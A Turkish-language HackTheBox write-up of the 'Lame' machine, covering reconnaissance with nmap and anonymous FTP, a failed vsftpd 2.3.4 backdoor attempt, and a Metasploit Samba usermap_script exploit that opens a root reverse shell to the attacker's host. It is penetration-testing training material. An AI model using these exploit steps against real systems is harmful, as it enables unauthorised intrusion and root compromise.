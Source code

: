 ```yaml
---
title: 'HackTheBox | Lame WriteUp'
author: appdone
categories: [HackTheBox Machines]
tags: [smb, command injection]
render_with_liquid: false
media_subpath: /images/hackthebox_lame/
image:
  path: logo.webp
---
```


## Özet

Lame, makinesi Samba'nın `3.0.20` zafiyetli sürümünü kullanan debian tabanlı kolay seviye bir makinedir. Metasploit üzerinden bu sürüme uygun olan exploit'i çalıştıracak ve sistemde yetkili bir bağlantıya sahip olacağız.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sSVC -T4 10.10.10.3
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.105
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h00m27s, deviation: 2h49m45s, median: 25s
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-04-04T03:57:04-04:00
```

### 21 numaralı portun incelenmesi

21 numaralı portun üzerinde FTP servisi çalışıyor ve zafiyetli bir servis sürümü kullanılıyor. Anonymous olarak FTP servisine bağlandığımızda ise boş bir dizin ile karşılaşıyoruz.

```console
$ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:appdone): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
...
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
...
```

Sözde zafiyetli sürümünün üzerinde barınan backdoor ise kapalı gibi görünüyor, nitekim servisi sömüremiyoruz.

```console
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> exploit
[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

### 22 numaralı portun incelenmesi

22 numaralı portun üzerinde `OpenSSH 4.7p1` sürümüne sahip bir SSH servisi çalışıyor. 4.4 ve 7.7 arasındaki sürümlerde kullanıcı isimlerini toplayabileceğimiz bir güvenlik zafiyeti olduğunu biliyoruz. Burayı şimdilik atlayacağım, çünkü bu işlem çok uzun sürüyor.

### 139/445 numaralı portun incelenmesi

139/445 portun üzerinde Samba'nın `smbd 3.0.20-Debian` sürümü çalışıyor. Bu sürümde `usermap script` adında bir exploit olduğunu biliyorum.

## Sömürü aşaması

Metasploit'i açıp, gerekli bilgileri doldurduktan sonra exploiti çalıştırıyor ve root haklarında bir shell elde ediyoruz.

```console
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> exploit
[*] Started reverse TCP handler on 10.10.14.105:4444 
[*] Command shell session 1 opened (10.10.14.105:4444 -> 10.10.10.3:45047) at 2025-04-04 04:11:50 -0400

id
uid=0(root) gid=0(root)
```
